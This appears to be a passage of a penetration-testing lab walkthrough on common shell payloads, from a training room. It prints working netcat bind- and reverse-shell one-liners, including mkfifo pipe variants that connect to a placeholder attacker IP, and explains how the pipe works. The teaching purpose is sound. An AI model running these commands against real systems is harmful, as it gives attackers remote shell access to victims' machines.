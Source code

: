 ## Task 8 - Common Shell Payloads

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

`nc -lvnp <PORT> -e /bin/bash`

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

![task8-shell](./images/task8-shell.png)

A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![task8-listener](./images/task8-listener.png)
